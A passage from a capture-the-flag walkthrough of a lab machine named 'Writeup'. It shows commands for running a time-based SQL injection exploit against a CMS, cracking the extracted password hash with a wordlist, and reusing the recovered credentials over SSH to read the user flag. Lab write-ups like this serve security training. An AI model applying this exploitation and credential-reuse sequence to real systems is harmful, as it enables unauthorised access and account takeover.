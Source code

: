 The exploit requires a Python 2 environment with the requests and termcolor libraries available. I used pipenv to keep this neatly contained.

```
mkdir exploit
cd exploit
pipenv --two
pipenv install requests termcolor
pipenv shell
python exploit.py -u http://10.10.10.138/writeup --crack -w ~/Seclists/Passwords/Leaked-Databases/rockyou.txt
```

The exploit script will use the SQL injection vulnerability to extract the admin username, email address, password hash and password salt. Because the exploit takes advantage of a timing difference in the SQL query being executed, it is sensitive to any significant network jitter. There is a global variable called `TIME` that defaults to 1 second, which in my first attempt resulted in a bad result. I tried changing this to 5 seconds, which resulted in a slower run of the exploit but the result was actually usable.

Nicely, the exploit will also let you provide it with a wordlist for mounting a dictionary attack on the obtained password hash. Funnily, the output from the exploit looks a bit like movie hacking.

```
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
[+] Password cracked: raykayjay9
```

Tada! Now to put those credentials to work. I tried using them to access the CMS Admin page and spent ages trying to get it to work. The admin portal is protected with HTTP Basic Auth, and after a while I decided this was probably a rabbit hole and moved on. I took a step back and remembered that SSH was available and tried those credentils there and they worked. 

```
ssh jkr@10.10.10.138
The authenticity of host '10.10.10.138 (10.10.10.138)' can't be established.
ECDSA key fingerprint is SHA256:TEw8ogmentaVUz08dLoHLKmD7USL1uIqidsdoX77oy0.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.138' (ECDSA) to the list of known hosts.
jkr@10.10.10.138's password:
Linux writeup 4.9.0-8-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
jkr@writeup:~$ cat user.txt
d4e493fd4068afc9eb1aa6a55319f978
```
